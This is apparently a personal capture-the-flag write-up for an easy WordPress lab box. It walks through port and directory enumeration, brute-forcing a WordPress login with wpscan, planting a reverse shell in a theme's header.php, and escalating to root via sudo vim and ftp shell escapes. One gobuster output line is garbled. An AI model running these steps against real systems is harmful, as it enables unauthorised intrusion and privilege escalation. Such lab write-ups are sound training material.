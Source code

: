 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```
![[Pasted image 20240609193857.png]]
```
nmap -p- -A 10.10.250.171 -T5
```
![[Pasted image 20240609202648.png]]
## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
![[Pasted image 20240609194252.png]]
## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 30vulnerability0] [--> htXML-RPC0.10set up171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**
![[Pasted image 20240609204402.png]]

# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![[Pasted image 20240609210033.png]]

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```
![[Pasted image 20240609210351.png]]
## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE

